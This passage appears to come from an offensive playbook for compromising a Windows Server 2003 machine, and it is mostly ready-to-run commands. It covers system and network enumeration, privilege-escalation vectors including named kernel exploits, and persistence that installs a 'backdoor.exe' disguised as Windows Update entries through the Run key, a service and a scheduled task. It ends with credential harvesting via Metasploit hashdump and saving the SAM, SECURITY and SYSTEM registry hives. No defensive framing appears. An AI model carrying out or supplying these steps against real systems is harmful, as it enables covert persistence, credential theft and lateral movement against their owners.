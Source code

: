 #### 3.2 System Information Gathering
```bash
# System information
systeminfo
wmic os get caption,version,architecture
net share

# Network information
ipconfig /all
netstat -an
arp -a
```

#### 3.3 Privilege Escalation
Since this is Windows Server 2003, likely escalation vectors:
- **Local Service to SYSTEM**: Check for vulnerable services
- **Token impersonation**: If SeImpersonatePrivilege available
- **Kernel exploits**: MS08-067, MS09-012, MS10-015

```bash
# Check for kernel exploits
wmic qfe list
wmic qfe get Description,HotFixID,InstalledOn

# Service enumeration
sc query
wmic service list brief
```

#### 3.4 Persistence Mechanisms
```bash
# Registry persistence
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\windows\system32\backdoor.exe"

# Service persistence
sc create "WindowsUpdateService" binpath= "C:\windows\system32\backdoor.exe"

# Scheduled task
schtasks /create /tn "SystemUpdate" /tr "C:\windows\system32\backdoor.exe" /sc onstart
```

### Phase 4: Data Collection & Lateral Movement
**Objective**: Extract sensitive data and expand access

#### 4.1 Credential Harvesting
```bash
# Password hashes
hashdump
use post/windows/gather/credentials/credential_collector

# SAM database
reg save hklm\sam c:\sam
reg save hklm\security c:\security
reg save hklm\system c:\system
```

